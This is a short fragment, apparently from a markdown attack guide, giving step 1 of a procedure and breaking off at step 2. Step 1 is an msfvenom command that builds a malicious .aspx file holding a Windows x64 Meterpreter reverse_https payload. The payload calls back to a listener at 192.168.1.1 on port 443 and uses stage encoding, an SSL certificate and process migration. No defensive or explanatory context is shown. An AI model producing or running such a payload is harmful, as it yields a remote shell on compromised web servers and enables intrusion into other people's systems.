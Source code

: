 1. Create a malicious .aspx file with msfvenom

```
~# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 enablestageencoding=true handlersslcert=justice.pem prependmigrate=true -f aspx -o met.aspx
```

2. 

